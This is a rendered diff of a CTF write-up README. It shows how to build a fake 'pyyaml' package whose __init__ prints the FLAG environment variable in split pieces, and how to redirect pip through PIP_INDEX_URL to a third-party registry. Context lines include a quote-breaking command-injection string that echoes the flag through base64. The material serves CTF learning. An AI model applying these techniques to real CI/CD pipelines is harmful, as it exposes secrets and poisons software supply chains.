

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, the part around the change. Shown at 91% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -47,12 +47,55 @@ Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
 > - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
 > - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
 > - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)
-``` bash
+
+_Below is how to setup the library to inject_
+1. Install Python
+2. Install PIP
+```sh
+pip install wheel
+pip install setuptools
+```
+4. Create a new directory named pyyaml
+5. Create a setup.py (link)
+```Python
+from setuptools import setup, find_packages
+
+setup(
+    name='pyyaml',
+    version='6.0.1',
+    packages=find_packages(),
+    install_requires=[],  # Si tu veux ajouter des dépendances
+    entry_points={
+        'console_scripts': [
+            'yaml = yaml.main:main',  # yaml sera la commande qui déclenchera ton script
+        ],
+    },
+)
+```
+6. Create a directory named `yaml`
+7. Add `__INIT__` file in the directory named yaml and edit:
+```Python
+import os
+
+print("COUCOU TDF3")
+env_vars = os.environ
+for key, value in env_vars.items():
+    if key == "flag" or key == "FLAG":
+        print("===== FLAG SPLIT =====")
+        print(f'Part 1 (0-5): {value[0:5]}')
+        print(f'Part 2 (5-100): {value[5:100]}')
+```
+8. Execute
+``` sh
+python setup.py bdist bdist_wheel
+```
+
+``` sh
 Not a release :(
 PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
 ```
 > [!TIP]
-> Alternatives to cloudsmith :
+> Alternatives to cloudsmith:
 > - Host your own registry (local, AWS or other...)
 > - Use github pages
 >
````
